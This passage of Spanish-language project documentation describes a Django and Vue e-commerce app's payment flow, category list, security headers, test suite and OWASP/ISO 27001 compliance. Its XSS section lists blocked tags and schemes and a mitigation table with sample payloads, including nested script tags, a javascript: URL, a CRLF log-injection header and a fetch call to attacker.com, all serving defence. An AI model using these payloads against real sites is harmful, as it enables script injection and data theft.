- Calcula subtotales y total exclusivamente desde `Product.price` en PostgreSQL.
- En el cliente, [CartDrawer.vue](frontend/src/components/CartDrawer.vue) invoca `cartStore.updateQuantity(id, -1)` y [cart.js](frontend/src/stores/cart.js) elimina automáticamente ítems cuando su cantidad llega a `0` o menos.

---

<a id="sec-7-pasarela-transbank"></a>
## 7. Pasarela de Pagos - Transbank Webpay Plus Fail-Closed

El proceso de pago en [backend/apps/payments/services.py](backend/apps/payments/services.py), [backend/apps/payments/views.py](backend/apps/payments/views.py) y [PaymentCarouselModal.vue](frontend/src/components/PaymentCarouselModal.vue) sigue el flujo oficial de Transbank sin simuladores de aprobación:



Para detalles del SDK y tarjetas de prueba, consulta [GUIA_TRANSBANK_WEBPAY.md](GUIA_TRANSBANK_WEBPAY.md).

---

<a id="sec-8-taxonomia-categorias"></a>
## 8. Taxonomía de Categorías y Selector Territorial

<a id="sec-8-1-catalogo-categorias"></a>
### 8.1. Catálogo Oficial de 14 Categorías

| # | Nombre de la Categoría | Slug Oficial | Ícono |
| :-: | :--- | :--- | :--- |
| 1 | **Tecnología** | `tecnologia` | `Cpu` |
| 2 | **Computación & Laptops** | `computacion-laptops` | `Laptop` |
| 3 | **Celulares & Telefonía** | `celulares-telefonia` | `Smartphone` |
| 4 | **Electrodomésticos & Línea Blanca** | `electrodomesticos-linea-blanca` | `Zap` |
| 5 | **Audio & Sonido** | `audio-sonido` | `Headphones` |
| 6 | **Videojuegos & Consolas** | `videojuegos-consolas` | `Gamepad2` |
| 7 | **Moda & Calzado** | `moda-calzado` | `Shirt` |
| 8 | **Deportes & Fitness** | `deportes-fitness` | `Activity` |
| 9 | **Hogar & Muebles** | `hogar-muebles` | `Home` |
| 10 | **Herramientas & Construcción** | `herramientas-construccion` | `Wrench` |
| 11 | **Belleza & Cuidado Personal** | `belleza-cuidado-personal` | `Sparkles` |
| 12 | **Automotriz & Accesorios** | `automotriz-accesorios` | `Car` |
| 13 | **Juguetes & Bebés** | `juguetes-bebes` | `Baby` |
| 14 | **Otros** | `otros` | `Package` |

<a id="sec-8-2-selector-comunas"></a>
### 8.2. Módulo de Despacho y Selector Territorial de Comunas Chilenas
- **Componentes:** [LocationModal.vue](frontend/src/components/LocationModal.vue) y [location.js](frontend/src/stores/location.js).
- **Geolocalización Real con Distancia Haversine:** Al pulsar *"Usar mi ubicación actual"*, `navigator.geolocation.getCurrentPosition` calcula la distancia geográfica hacia las coordenadas de las comunas chilenas registradas y selecciona la ciudad más cercana, habilitado mediante `Permissions-Policy: geolocation=(self)`.

---

<a id="sec-9-prevencion-xss"></a>
## 9. Prevención Integral contra Cross-Site Scripting (XSS) y Endurecimiento HTTP

<a id="sec-9-1-definicion-xss"></a>
### 9.1. Definición y Clasificación de Amenazas XSS
El **Cross-Site Scripting (XSS)** ocurre cuando entradas no confiables alcanzan el navegador sin validación ni codificación contextual, clasificándose en:
1. **XSS Reflejado:** Payloads enviados en parámetros de consulta o formularios que regresan en la respuesta.
2. **XSS Almacenado:** Cargas persistidas en base de datos que afectan a otros visitantes al consultarse.
3. **XSS Basado en DOM:** Datos manipulados en JavaScript que alcanzan sumideros del DOM (*DOM sinks*) peligrosos como `innerHTML`, `eval()` o `v-html`.

<a id="sec-9-2-estandar-owasp"></a>
### 9.2. Estándar OWASP de Defensa en Profundidad
El sistema aplica controles por capas basados en la *OWASP XSS Prevention Cheat Sheet*: codificación contextual automática en plantillas, saneamiento iterativo de etiquetas HTML y esquemas peligrosos en cliente/servidor, validación de URLs de galería e imagen y políticas estrictas `Content-Security-Policy`.

<a id="sec-9-3-restriccion-caracteres"></a>
### 9.3. Preservación de Puntuación Comercial vs Bloqueo de Scripts
Para no romper la usabilidad comercial (precios como `$199.990`, modelos como `Monitor 24*`, etiquetas `[IPS]`, listas separadas por `;`), **no se interceptan pulsaciones de teclado (`@keypress`) ni se bloquea puntuación comercial estándar**. La defensa se concentra en bloquear caracteres de marcado HTML (`<`, `>`), etiquetas (`<script>`, `<iframe>`, `<svg>`, `<object>`, `<embed>`), esquemas ejecutables (`javascript:`, `vbscript:`, `data:text/html`) y manejadores de eventos (`on\w+=`).

<a id="sec-9-4-defensas-frontend"></a>
### 9.4. Defensas en Frontend (Vue 3 y `security.js`)
En [frontend/src/utils/security.js](frontend/src/utils/security.js):
1. **Sanitización Iterativa en Punto Fijo (`sanitizeInput` / `sanitizeEventInput`):** Ejecuta un ciclo `do ... while (out !== prev)` hasta estabilizar la cadena, evitando evasiones con etiquetas anidadas (ej. `<scr<script>ipt>` o `javasjavascript:cript:`).
2. **Validación Sin Estado (`isSafeInput`):** Evalúa expresiones regulares **sin flag `/g`**, evitando fugas de estado en `RegExp.lastIndex` entre llamadas sucesivas.
3. **Auto-Escape Nativo de Vue 3:** Todas las vistas utilizan interpolación `{{ }}` (cero `v-html` sobre entradas de usuario).
4. **Validación Estricta de URLs (`isValidHttpsUrl`):** Comprueba mediante `new URL()` que los enlaces externos de tiendas oficiales y redirecciones utilicen exclusivamente protocolo `https:`.

<a id="sec-9-5-defensas-backend"></a>
### 9.5. Defensas en Backend (Django REST Framework y ORM)
1. **Validación Iterativa en Serializadores (`validate_xss_safe`):** En [backend/apps/products/serializers.py](backend/apps/products/serializers.py), decodifica iterativamente entidades URL/HTML y caracteres de control para detectar y rechazar con `HTTP 400` cualquier etiqueta `<` / `>`, esquema peligroso o manejador de evento incluso en cargas anidadas.
2. **Validación de Galería (`_validate_image_ref`):** Solo acepta rutas relativas `/media/...` (sin traversal `..`) o URLs válidas `http`/`https`, bloqueando `javascript:` o `data:` en `existing_images`.
3. **Sanitización de Búsqueda (`_sanitize_search_query`):** Limpia HTML/scripts del parámetro `?q=` manteniendo símbolos comerciales de búsqueda.

<a id="sec-9-6-cabeceras-seguridad"></a>
### 9.6. Cabeceras HTTP de Seguridad y Auditoría Sanitizada
En [backend/apps/security/middleware.py](backend/apps/security/middleware.py):
- **`Content-Security-Policy`:** `script-src 'self'`, `frame-ancestors 'none'`, `form-action 'self' https://webpay3gint.transbank.cl https://webpay3g.transbank.cl`, `img-src 'self' data: blob: https://images.unsplash.com`, y `connect-src` restringido exclusivamente a `'self'`, dominios Transbank y orígenes `CORS_ALLOWED_ORIGINS` (sin comodines `https:` ni `localhost:*`).
- **`Strict-Transport-Security`:** `max-age=31536000; includeSubDomains` en peticiones HTTPS o con `DEBUG=False` (compatible con proxy Nginx gracias a `SECURE_PROXY_SSL_HEADER`).
- **`Permissions-Policy`:** `geolocation=(self), microphone=(), camera=()`.
- **`X-Content-Type-Options`:** `nosniff` / **`X-Frame-Options`:** `DENY` / **`Referrer-Policy`:** `strict-origin-when-cross-origin`.
- **Auditoría Anti-CRLF (`SecurityAuditLoggingMiddleware`):** Valida direcciones IP con `ipaddress.ip_address()`, respeta `TRUST_X_FORWARDED_FOR` y depura caracteres `[\r\n\x00-\x1f\x7f]` antes de registrar logs.

<a id="sec-9-7-matriz-mitigaciones"></a>
### 9.7. Matriz de Vectores de Ataque XSS vs Mitigaciones

| Vector de Ataque | Ejemplo de Payload | Control Aplicado | Resultado |
| :--- | :--- | :--- | :--- |
| **XSS Anidado en Formulario** | `<scr<script>ipt>alert(1)</script>` | `sanitizeInput` en punto fijo + `validate_xss_safe` | Frontend depura en bucle; backend rechaza con `HTTP 400` |
| **Esquemas en URLs / Galería** | `javascript:alert(1)` | `isValidHttpsUrl`, `_validate_image_ref`, `URLValidator(schemes=['https'])` | Rechazado con `HTTP 400` en backend y bloqueado en UI |
| **Bypass por `lastIndex`** | Llamadas alternas a `isSafeInput` | RegExp sin flag `/g` | Comportamiento 100% determinista |
| **Exfiltración de Datos vía CSP** | `fetch('https://attacker.com')` | `CSP connect-src` sin comodín `https:` | Bloqueado por el navegador |
| **Inyección CRLF en Logs** | `X-Forwarded-For: 1.2.3.4\r\n[AUDIT]...` | `_sanitize_log_value` + `ipaddress` | Registrado en una sola línea como `Invalid_IP` |

---

<a id="sec-10-gestion-secretos"></a>
## 10. Gestión de Secretos (`.env`) y Blindaje ISO/IEC 27001

Todas las variables sensibles residen en `.env` (ignorado en `.gitignore`), documentadas mediante plantillas con marcadores `<CHANGE_ME>` en [example.env](example.env), [.env.example](.env.example), [backend/example.env](backend/example.env) y [backend/.env.example](backend/.env.example):
- **`SECRET_KEY` y `JWT_SECRET_KEY`:** Cuando `DEBUG=False`, `settings.py` exige que `JWT_SECRET_KEY` esté configurada de manera independiente, sea distinta a `SECRET_KEY` y no utilice valores conocidos de ejemplo, abortando el arranque (`ImproperlyConfigured`) si no se cumple.
- **Expiración y Revocación JWT:** Los tokens expiran por defecto en **24 horas** (`JWT_EXPIRATION_HOURS=24`), llevan un identificador `jti` único verificable contra `accounts_revokedtoken` al cerrar sesión (`POST /api/v1/auth/logout/`), y `JWTAuthentication` valida `user.is_locked()` en cada petición.
- **Almacenamiento en Cliente:** El store [auth.js](frontend/src/stores/auth.js) no lee roles desde `localStorage`; las capacidades de interfaz se resuelven directamente contra `GET /api/v1/auth/me/`.

---

<a id="sec-11-pruebas-operacion"></a>
## 11. Guía de Pruebas Automatizadas y Operación

### Suite de Pruebas Automatizadas del Backend (37 Tests)

```bash
cd backend
# Con PostgreSQL configurado en backend/.env:
python manage.py test apps.accounts apps.products apps.payments -v 2

# En entorno local o CI sin instancia PostgreSQL activa:
TEST_USE_SQLITE=True python manage.py test apps.accounts apps.products apps.payments -v 2
```

Cobertura validada:
- **Cuentas y Seguridad (`apps.accounts.tests` - 13 tests):** Desacoplamiento `UserCredential-UserProfile-Persona`, asignación y sincronización `UserRol`, preservación de `ADMIN` en ascenso a vendedor, revocación de permisos al degradar rol, rate limiting HTTP 429 en login/registro, manejo atómico de RUT duplicado sin usuarios huérfanos, bloqueo `is_locked()` en JWT, revocación de tokens vía `/logout/`, moderación de tiendas oficiales y URLs `https://`, segregación PII en serializadores públicos vs privados, CSP sin comodines `https:`, HSTS, `Permissions-Policy` y sanitización CRLF en logs.
- **Catálogo, Imágenes y Reseñas (`apps.products.tests` - 13 tests):** Longitud ADS $>250$, URLs limpias, rechazo de XSS anidados, aceptación de puntuación comercial (`$`, `*`, `[`, `]`, `;`), sanitización de búsqueda, CRUD vendedor, paginación (12 ítems/página), reseñas restringidas a compra `AUTHORIZED` y unicidad, moderación de Tienda Oficial, privacidad C2C sin PII civil, validación de esquemas en `existing_images`, normalización 900x600 $\le$ 1 MB / magic bytes / límite 10 MB y bloqueo de `seed_ecommerce` sin secretos cuando `DEBUG=False`.
- **Pagos y Carrito (`apps.payments.tests` - 11 tests):** Cálculo seguro anti-tampering en servidor, entradas malformadas y agregación de duplicados (`HTTP 400`), flujo Transbank `init`/`commit`, inicialización *Fail-Closed* (`HTTP 502`), commit *Fail-Closed* ante excepciones, códigos de rechazo y tokens falsos `tbk_token_*`, bloqueo de *replay attack*, reversa automática `tx.refund()` + `HTTP 409` ante stock agotado concurrente, redirección navegador `GET`/`TBK_TOKEN` y selección de ambiente `IntegrationType.LIVE`.

### Compilación y Verificación del Frontend

```bash
cd frontend
npm ci
npm run build
```

---

<a id="sec-12-clean-code"></a>
## 12. Estándares de Código Limpio (Clean Code)

1. **Separación de Responsabilidades (SRP):** Aislamiento estricto por dominios (`accounts`, `products`, `payments`, `security`) y proxy inverso Nginx para entrega de estáticos y medios.
2. **Desacoplamiento API REST $\leftrightarrow$ SPA:** Cero plantillas HTML monolíticas servidas por Django para la tienda; respuestas JSON uniformes.
3. **Principio DRY:** Funciones puras y servicios reutilizables (`calculate_safe_cart_totals`, `TransbankWebpayService`, `process_and_secure_product_image`, `validate_xss_safe`, `security.js`).
4. **Identificadores No Predecibles:** Claves primarias `UUIDv4` en modelos de negocio para mitigar enumeración e IDOR.

---

<a id="sec-13-marco-seguridad"></a>
## 13. Marco Integral de Seguridad (ISO/IEC 27001 & OWASP Top 10)

| Dominio de Seguridad | Control / Estándar | Implementación Verificada |
| :--- | :--- | :--- |
| **Gestión de Credenciales** | ISO 27001 A.8.9 | Secretos en `.env`; `JWT_SECRET_KEY` obligatorio y distinto de `SECRET_KEY` en producción |
| **Privacidad de Identidades (PII)** | ISO 27001 A.8.3 | C2C expone solo `public_alias`; datos de `Persona` aislados de endpoints públicos |
| **Control de Acceso (RBAC)** | ISO 27001 A.5.15 / A.8.2 | Fuente canónica `UserCredential.role`, sincronización `UserRol` y moderación `ADMIN` en Tiendas Oficiales |
| **Sesión, Rate Limiting y Bloqueo** | OWASP A07:2021 / A04:2021 | `ScopedRateThrottle` en login/registro, `is_locked()` validado en JWT, expiración 24h y `RevokedToken` denylist |
| **Integridad Transaccional y Pagos** | OWASP A04:2021 / ACID | Cálculo en servidor ORM, Transbank *Fail-Closed*, `@transaction.atomic`, `select_for_update()` y `refund()` en fallos de stock |
| **Protección Anti-XSS e Inyección** | OWASP A03:2021 | Escape contextual Vue 3, sanitización en punto fijo, `validate_xss_safe`, validación URL en galería y SQL ORM parametrizado |
| **Seguridad de Archivos** | OWASP A08:2021 | Límite 10 MB, `<canvas>` pre-scaling, Pillow `verify()`, `MAX_IMAGE_PIXELS = 10M`, lienzo 900x600 $\le$ 1 MB |
| **Cabeceras HTTP y Auditoría** | ISO 27001 A.8.15 / A.8.26 | CSP sin comodines `https:`, HSTS, `X-Frame-Options: DENY`, `nosniff`, `Permissions-Policy: geolocation=(self)` y logs anti-CRLF |

---

<a id="sec-14-auditoria-cumplimiento"></a>
## 14. Auditoría de Cumplimiento y Análisis de Brechas (Gap Analysis)

<a id="sec-14-1-diferencias-conceptuales"></a>
### 14.1. Diferencias Conceptuales - Gobernanza (ISO 27001) vs Código (OWASP)
- **ISO/IEC 27001:2022:** Estándar de gobernanza para un Sistema de Gestión de Seguridad de la Información (SGSI / ISMS) con 93 controles organizacionales, físicos y tecnológicos.
- **OWASP Top 10:2021 / API Security Top 10:** Marco técnico enfocado en vulnerabilidades explotables en software web y APIs REST.

<a id="sec-14-2-cumplimiento-owasp"></a>
### 14.2. Matriz de Cumplimiento Técnico OWASP Top 10:2021

| Código OWASP | Riesgo Crítico | Implementación Técnica |
| :--- | :--- | :--- |
| **A01:2021** | **Broken Access Control** | RBAC canónico (`IsSellerOrAdmin`, `IsAccountOwnerOrReadOnly`), moderación `ADMIN` en Tiendas Oficiales, UUIDv4, verificación de compra `AUTHORIZED` para reseñas y aislamiento de PII en C2C. |
| **A02:2021** | **Cryptographic Failures** | PBKDF2 SHA-256, `JWT_SECRET_KEY` segregado y validado en producción, expiración 24h y delegación total de datos bancarios a Webpay Plus. |
| **A03:2021** | **Injection (SQLi & XSS)** | Django ORM parametrizado (`psycopg 3`), validación iterativa anti-XSS sin falsos positivos comerciales, escape nativo Vue 3 y CSP restrictivo. |
| **A04:2021** | **Insecure Design** | Cálculo de precios exclusivamente en backend, pagos *Fail-Closed*, bloqueo pesimista `select_for_update()`, idempotencia anti-replay y reversa automática. |
| **A05:2021** | **Security Misconfiguration** | Contenedores sin usuario `root`, PostgreSQL sin exposición `0.0.0.0`, Nginx + Gunicorn, `DEBUG=False` en plantilla productiva, HSTS, CSP y CORS restringidos. |
| **A06:2021** | **Vulnerable and Outdated Components** | Dependencias modernas actualizadas y fijadas en `package.json`/`package-lock.json` con instalación determinista `npm ci`. |
| **A07:2021** | **Identification & Authentication Failures** | `ScopedRateThrottle` (`login`/`register`), bloqueo temporal tras 5 fallos validado en JWT, denylist `RevokedToken` en `/logout/` y validación de RUT atómica. |
| **A08:2021** | **Software & Data Integrity Failures** | Verificación de magic bytes con Pillow, reconstrucción 900x600 $\le$ 1 MB, validación de URLs en `existing_images` y prohibición de resiembra demo en arranque productivo. |
| **A09:2021** | **Security Logging & Monitoring Failures** | `SecurityAuditLoggingMiddleware` con protección contra inyección CRLF y validación estricta de IPs. |
| **A10:2021** | **Server-Side Request Forgery (SSRF)** | El backend no descarga imágenes desde URLs suministradas por usuarios; toda carga de archivos usa `multipart/form-data` en memoria. |

<a id="sec-14-3-cumplimiento-iso27001"></a>
### 14.3. Matriz de Cumplimiento ISO/IEC 27001:2022 Anexo A

| Cláusula | Control | Implementación |
| :--- | :--- | :--- |
| **A.5.15** | Control de Acceso | RBAC sobre `UserCredential.role` sincronizado con `UserRol` y verificación de propiedad |
| **A.5.17** | Información de Autenticación | Derivación PBKDF2 SHA-256 + política de longitud y complejidad |
| **A.8.2** | Derechos de Acceso Privilegiados | Segregación `BUYER` / `SELLER` / `ADMIN` y protección contra degradación accidental de `ADMIN` |
| **A.8.3** | Restricción de Acceso a la Información | `public_alias` en C2C; `Persona` aislada en catálogo público |
| **A.8.5** | Autenticación Segura | JWT HS256 (24h), rate limiting, bloqueo por intentos y revocación `jti` en servidor |
| **A.8.9** | Gestión de Configuración | Secretos aislados en `.env`, política Fail-Fast en PostgreSQL y arranque no-root en Docker |
| **A.8.15** | Registro de Logs | Auditoría HTTP en mutaciones API con sanitización anti-CRLF |
| **A.8.24** | Uso de Criptografía | PBKDF2, HMAC-SHA256 segregado y delegación bancaria hacia Webpay Plus |
| **A.8.26** | Seguridad en Redes de Aplicación | Nginx Gateway, HSTS, CSP sin comodines abiertos, `X-Frame-Options: DENY` y `nosniff` |
| **A.8.28** | Codificación Segura | Validadores tipados, transacciones ACID, prevención XSS/SQLi y batería de 37 tests |

<a id="sec-14-4-analisis-brecha"></a>
### 14.4. Análisis de Brecha (Gap Analysis) hacia Certificación Productiva

Si bien las brechas críticas de ingeniería de software y despliegue base (pagos *Fail-Closed*, concurrencia ACID, Nginx/Gunicorn, Fail-Fast DB, CSP/HSTS, rate limiting y revocación de sesión) ya han sido implementadas en código, alcanzar una **certificación corporativa ISO/IEC 27001:2022** y madurez **OWASP ASVS Nivel 3** requiere los siguientes controles operacionales y organizacionales externos al repositorio:

1. **Gobernanza SGSI (Cláusulas 5, 6, 9 y 10):** Política de seguridad formal aprobada por dirección, matriz de riesgos ISO 27005, Declaración de Aplicabilidad (SoA) y auditorías externas Fase 1 y Fase 2 por organismo acreditado.
2. **Continuidad Operacional (BCP / DRP):** Respaldos geo-redundantes automatizados de `pgdata` y `media_data` con pruebas periódicas de RTO/RPO.
3. **Gestión de Claves en Hardware (KMS / HSM):** Migrar `SECRET_KEY`, `JWT_SECRET_KEY` y llaves Transbank desde `.env` hacia AWS KMS, Azure Key Vault o HashiCorp Vault con rotación automática.
4. **Seguridad Perimetral y Caché Distribuida:** Incorporar WAF L7 en borde (Cloudflare / AWS WAF), backend de caché **Redis** compartido para rate limiting multi-instancia y certificados TLS emitidos por CA con terminación HTTPS en Nginx/Load Balancer.
5. **Pipeline DevSecOps:** Automatizar SAST (Semgrep/Bandit), SCA/Dependabot y DAST (OWASP ZAP) en GitHub Actions junto a pruebas anuales de penetración (*Ethical Hacking*).

---

<a id="sec-15-glosario"></a>
## 15. Glosario de Siglas y Términos

- **ADS (`caracteristicas_ads`):** Sigla utilizada en el modelo del proyecto para referirse al bloque de *Anuncio y Especificaciones Técnicas Detalladas* de cada publicación, con longitud obligatoria mayor a 250 caracteres.
- **ASVS (*Application Security Verification Standard*):** Estándar de verificación de seguridad de aplicaciones definido por OWASP.
- **CSP (*Content-Security-Policy*):** Cabecera HTTP que restringe los orígenes válidos de scripts, estilos, imágenes, conexiones y formularios en el navegador.
- **HSTS (*HTTP Strict Transport Security*):** Cabecera que instruye a los navegadores a utilizar exclusivamente conexiones cifradas HTTPS.
- **PII (*Personally Identifiable Information*):** Información personal identificable (RUT, nombres civiles, teléfono, dirección, correo).
- **RBAC (*Role-Based Access Control*):** Control de acceso basado en roles (`BUYER`, `SELLER`, `ADMIN`).
- **RUT (*Rol Único Tributario*):** Identificador tributario y civil único utilizado en Chile.
- **SERNAC (*Servicio Nacional del Consumidor*):** Organismo público chileno encargado de velar por los derechos del consumidor (Ley N° 19.496).
- **`token_ws`:** Parámetro estándar de sesión de transacción (*Web Services Token*) utilizado por Transbank Webpay Plus para identificar el flujo entre creación, redirección y confirmación (`commit`).
- **`Userdjango` (`UserCredential`):** Modelo de usuario personalizado de Django (`accounts_usercredential`) encargado de autenticación y rol canónico.
